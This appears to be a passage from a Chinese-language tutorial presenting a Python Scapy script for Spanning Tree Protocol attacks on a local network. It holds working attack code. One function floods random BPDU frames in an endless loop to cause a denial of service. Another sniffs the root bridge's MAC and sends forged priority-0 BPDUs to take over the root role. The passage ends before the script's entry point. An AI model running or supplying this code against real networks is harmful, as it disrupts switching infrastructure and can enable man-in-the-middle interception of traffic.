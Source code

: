 ```python
>>> print(RandMAC())
77:41:76:0c:6b:8f
>>> print(RandMAC())
8e:f4:f8:90:66:4d
```

### 完整代码

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import (
    Ether,
    STP,
    LLC,
    sendp,
    sniff,
    RandMAC)
from random import choice
from argparse import ArgumentParser
import sys

mac_dst = '01:80:C2:00:00:00'


def bpdu_dos(iface):
    id_list = []
    for i in range(9):
        id_list.append(i * 4096)

    randmac = RandMAC()
    ether = Ether(dst=mac_dst, src=randmac) / LLC()
    stp = STP(rootid=choice(id_list), rootmac=randmac,
              bridgeid=choice(id_list), bridgemac=randmac)
    pkt = ether / stp
    sendp(pkt, iface=iface, loop=1)


def bpdu_spoof(iface):
    mac_new = get_rootmac(iface)
    while 1:
        ether = Ether(dst=mac_dst, src=mac_new) / LLC()
        stp = STP(rootid=0, rootmac=mac_new, bridgeid=0, bridgemac=mac_new)
        pkt = ether / stp
        sendp(pkt, iface=iface)


def get_rootmac(iface):
    stp = sniff(stop_filter=lambda x: x.haslayer(
        STP), iface=iface, timeout=3, count=1)

    if not stp:
        print('[-]No stp packet')
        sys.exit(1)

    mac = stp.res[0].fields['src']
    mac_list = mac.split(':')
    mac_list[3] = hex(int(mac_list[3], 16) - 1)[2:]
    mac_new = ':'.join(mac_list)
    return mac_new


```